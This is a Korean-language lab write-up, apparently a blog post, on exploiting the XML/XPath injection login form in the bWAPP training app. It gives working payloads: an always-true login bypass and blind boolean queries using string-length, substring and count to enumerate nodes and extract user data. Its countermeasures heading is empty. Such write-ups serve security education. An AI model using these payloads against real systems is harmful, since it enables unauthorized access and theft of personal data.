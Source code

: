 ```yaml
---
title: "[bWAPP] 1. Injection - XML/XPath Injection (Login Form)"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## XML/XPath Injection

### XML

eXtensible Markup Language의 약어

W3C에서 개발된 여러 특수 목적의 마크업 언어를 만드는 용도에서 권장되는 다목적 마크업 언어

웹 상의 문서를 구조화하고 전송 데이터를 트리 구조의 노드로 표현, 사용자가 정의한 태그로 데이터를 분류 가능

### XPath

XML Path Language

XML 문서의 구조를 통해 경로 위에 지정한 구문을 사용하여 항목을 배치하고 처리하는 방법을 기술하는 언어

<br>

<br>

## Object

XML 구조에 악의적인 구문을 삽입하거나 XPath를 조작하여 XML의 내용을 노출하는 공격 기법

XML = DB

XPath = SQL

<BR>

![image-20220317160119778](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317160119778.png)

- 작은 따옴표를 넣어보자

![image-20220317160532642](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317160532642.png)

- XPath 구문오류 뜨는 것으로 보아 XML Injection 가능할 것으로 보임
- Login과 password 둘다 AND 연산 될 것으로 추측하며 소스코드 뜯어보자 - xmli_1.php

![image-20220317160752016](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317160752016.png)

- "login =' " . &login . " ' and password=' " . &password . " ' "
- 예상했던 대로 이런식으로 구성되어있다.
- 보기 편하게 큰 따옴표는 제거해주겠다.
- login = ' . &login . ' and password = ' . &password . '
- 자 이제 우리는 &login에다가 XML 코드를 삽입할 거다

<BR>

### 항상 참 구문

![image-20220317161418460](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317161418460.png)

`' or 1=1 or '`

- 먼저 &login 변수 앞의 여려있는 작은따옴표를 닫아주고
- or 1=1 or 로 항상 참인 식으로 완성한다.
- 마지막으로 작은따옴표를 통해 &login 변수 값을 덮어주는 쪽을 열어줌으로써 충족시켜준다.

`login = ' ' or 1=1 or ' ' and password = ' . &password . '`

- 완성 식이다.
- OR 와 AND 연산 우선순위에 의해 AND 먼저 연산 시 AND는 거짓

`login = ' ' or 1=1 or 거짓`

- 1=1 항상 참이기에 결국엔 참으로 반환하는 결과
- 이를 통해 첫 번째 User가 Neo이고, Neo의 Secret은 Oh, why didn't i took that BLACK pill? 이란것을 알아냈다.

<br>

### 거짓 구문

![image-20220317163518301](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317163518301.png)

- 거짓일 때
- 참 거짓을 활용하는 Blind 방식이다.

<br>

### 참 구문 변형

![image-20220317162834026](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317162834026.png)

`neo' or 'a'='a`

`login = 'neo' or 'a'='a' and password = ' . &password . '`

- 이런식으로 또한 항상 참 구문을 만들 수 있다.
- 이를 변형시켜 XPath의 부모노드부터 구해보자

<br>

### 부모 노드 = DB

![image-20220317163222421](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317163222421.png)

`neo' and string-length(name(parent::*))=6 or 'a'='b`

- 먼저 'a'='b 를 해준 이유는
- and 연산에서 참이어야(and 우선 연산) 전체식이 참이되기 때문에 일부러 한 번 꼬아줬다.
- neo는 참이기 때문에 string-length(name(parent::*))=6 이 참이면 참 값을 도출해 낼 것이다.
  - parent : 부모 노드
  - ::* : 지정 노드의 모든(*) 요소
  - name : 인자로 받은 노드의 이름을 반환
  - string-length : 인자로 받은 노드의 길이를 반환

`neo' and substring(name(parent::*),1,1)='a' or 'a'='b`

- 길이를 알아냈다면 다음으로 substring을 통해 실제 문자를 대조해준다.

```sql
SUBSTR(str, pos, len)
```

- str에서 pos 번째 위치의 len 개의 문자를 읽어 들임.

`neo' and name(parent::*)='heroes' or 'a'=b`

- 맞는지 확인해준다.

<br>

### 자식 노드 = 테이블

![image-20220317164103003](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317164103003.png)

```xml
neo' and count(../child::*)=6 or 'a'='b
```

- 자식 노드 수를 구해준다.
  - count : 인자로 받은 노드의 갯수를 반환
  - ../ : 상위 노드
  - child : 자식 노드
  - ::* : 지정 노드의 모든(*) 요소

```xml
neo' and string-length(name(../child::*[position()=1]))=4 or 'a'='b
```

- 자식 노드의 수를 구해줬으면 position 함수를 이용해 n 번째 자식 노드의 이름 길이 값을 구해주자
  - position() = n : SQL의 limit 과 같음 n 번째 노드 반환

```xml
neo' and substring(name(../child::*[position()=1]),1,1)='a' or 'a'='b
```

- 다음 substring 함수를 이용해 실제문자와 대조해준다.

```xml
neo' and name(../child::*[position()=1])='hero' or 'a'='b
```

- 맞는지 확인

<br>

### hero의 자식노드 = 컬럼

![image-20220317165457584](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317165457584.png)

```xml
neo' and count(/heroes/hero[1]/child::*)=6 or 'a'='b
```

- 최상위 부모노드 heroes의 자식노드인 hero[1]의 자식노드 수를 구하고

```xml
neo' and string-length(name(/heroes/hero[1]/child::*[position()=1]))=2 or 'a'='b
```

- 자식노드의 길이 구해주고

```xml
neo' and substring(name(/heroes/hero[1]/child::*[position()=1]),1,1)='i' or 'a'='b
```

- 그에 맞는 문자 찾아준다.

<BR>

### hero의 자식노드 속성 = 컬럼 속성

![image-20220317170152398](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317170152398.png)

```xml
neo' and string-length(name(/heroes/hero[1]/id))=2 or 'a'='b
```

- 각 속성 길이 구해주고

```xml
neo' and substring(name(/heroes/hero[1]/id),1,1)='a' or 'a'='b
```

- 실제 문자 대조해준다.
- 이런 식으로 개인정보 탈취할 수 있다.

<br>

<br>

##  대응 방안





